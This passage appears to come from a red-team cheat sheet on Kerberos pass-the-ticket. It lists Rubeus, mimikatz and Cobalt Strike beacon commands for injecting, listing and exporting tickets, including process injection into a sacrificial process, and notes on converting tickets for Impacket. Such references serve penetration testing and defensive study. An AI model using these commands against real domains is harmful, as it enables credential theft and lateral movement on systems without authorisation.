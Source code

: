 ```bash
# If necessary, decodes a ticket in base64 (from Rubeus for example) to the KRB_CRED format.
cat <TICKET_BASE64_FILE_PATH> | tr -d "[:space:]" | base64 --decode > <TICKET_KIRBI_FILE_PATH>

# Injects into memory a ticket in the KRB_CRED format.
Rubeus.exe ptt /ticket:<TICKET_BASE64 | TICKET_BASE64_FILE_PATH | TICKET_KIRBI_FILE_PATH>
mimikatz.exe "kerberos::ptt <TICKET_KIRBI_FILE_PATH>" exit
```

`Cobalt Strike` 's `make_token` and `kerberos_ticket_use` `beacon` commands may
be used to inject tickets with out overwriting the ones cached in the current
logon session:

```
# Requires elevated privileges.
beacon> make_token <DOMAIN>\<USERNAME> "PasswordNotRequired"
beacon> kerberos_ticket_use <C2_TICKET_KIRBI_FILE_PATH>

# Does not requires a elevated privileges. Create a new beacon in a sacrificial process to protect the current beacon logon session tickets.
# The use of the make_token command is still necessary as both beacon share the same logon session.
original_beacon> make_token <DOMAIN>\<USERNAME> "PasswordNotRequired"
original_beacon> run <C:\Windows\System32\cmd.exe | BINARY_PATH>
original_beacon> ps
original_beacon> inject <NEW_PROCESS_PID> <x86 | x64> <LISTENER>
new_beacon> kerberos_ticket_use <C2_TICKET_KIRBI_FILE_PATH>

# Reverts the logon session created using the make_token command, so the original logon session's tickets are restored.
beacon | original_beacon> rev2self
```

The `Kerberos` tickets cached in the current logon session can be listed using
the Windows built-in `klist` utility, `Rubeus`'s `klist` module, or
`mimikatz`'s `kerberos::list` command:

```bash
klist

Rubeus.exe klist

mimikatz.exe "kerberos::list" exit
mimikatz.exe "kerberos::list /export" exit
```

###### [Linux] Credential cache (ccache)

`Kerberos` tickets can be converted from the `KRB_CRED` format to the
`credential cache (ccache)` format to be used with, among others, the
`Impacket`'s Python utilities. If a `TGT` is provided, the `Impacket`'s
utilities will try to obtain the necessary service tickets through request to
the `KDC`.

Note that `impackets` utilities can only make use of a single `Kerberos
tickets` at a time, which limits the possible usage of the utilities with
`service tickets`.
